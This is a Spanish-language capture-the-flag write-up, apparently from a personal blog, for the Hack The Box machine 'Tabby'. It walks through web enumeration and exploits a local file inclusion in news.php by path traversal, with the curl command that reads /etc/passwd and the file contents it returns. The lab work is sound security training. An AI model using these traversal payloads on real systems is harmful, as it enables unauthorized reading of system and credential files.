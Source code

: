 Revisando cada versión con `searchsploit` no encontramos nada.

#### Puerto 80

![pagemegahosting](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/pagemegahosting.png)

Enumerando simplemente encontramos en el apartado `/news` que si entramos la **URL** cambia a `http://megahosting.htb/news.php?file=statement`. Por lo que debemos modificar en nuestro archivo `/etc/hosts` ese reconocimiento. Para que cuando la petición sea hacia el dominio `megahosting.htb` la resuelva la IP `10.10.10.194`.

```bash
─╼ $ cat /etc/hosts

10.10.10.194  megahosting.htb
```

Si volvemos a entrar ahora si nos permite ver el contenido:

> We apologise to all our customers for the previous data breach.
> We have changed the site to remove this tool, and have invested heavily in more secure servers

...

## Explotación {#explotacion}

Veamos la URL. Toma un argumento llamado `file`, lo que en nuestra cabeza puede significar que puede estar tomando cualquier archivo que le indiquemos... Por lo que posiblemente tengamos un **Local/Remote File Inclusion**, que nos permitiría ver e INCLUIR archivos en el sistema. Probemos ver un archivo local.

Digámosle que nos muestre el archivo `/etc/passwd`.

```html
http://megahosting.htb/news.php?file=../../../../../../etc/passwd
```

![pagepasswd](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/pagepasswd.png)

```bash
─╼ $ curl -s http://megahosting.htb/news.php?file=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
```